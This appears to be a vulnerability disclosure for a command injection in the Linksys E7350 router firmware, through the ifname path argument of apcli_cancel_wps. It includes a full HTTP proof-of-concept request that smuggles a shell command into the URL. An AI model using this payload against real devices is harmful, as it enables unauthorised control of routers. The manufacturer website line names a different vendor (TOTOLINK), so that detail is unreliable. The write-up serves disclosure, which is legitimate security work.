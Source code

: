# Linksys E7350 Ver.1.1.00.032 Command Injection (apcli_cancel_wps)

## Product Information

- Device: Linksys E7350
- Firmware Version: Ver.1.1.00.032
- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://support.linksys.com/kb/article/6935-cn/

![](./1.png)

## Vulnerability Description

In the `/usr/lib/lua/luci/controller/mtkwifi.lua` file, there is a **command injection vulnerability** in the `apcli_cancel_wps` function via the `ifname` parameter.

![](./2.png)

Entry: `/admin/mtk/wifi/apcli_cancel_wps/arg`

![](./3.png)

## Payload

We can trigger this vulnerability by injecting the `ls>12345.txt` command using the following payload.

```http
GET /cgi-bin/luci/admin/mtk/wifi/apcli_cancel_wps/;ls>12345.txt; HTTP/1.1
Host: 192.168.187.136
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="131", "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: sysauth=2066ce7be48fd3ba36e4135e973cd840
```

![](./4.png)

After the injection, we can verify the result.

![](./5.png)
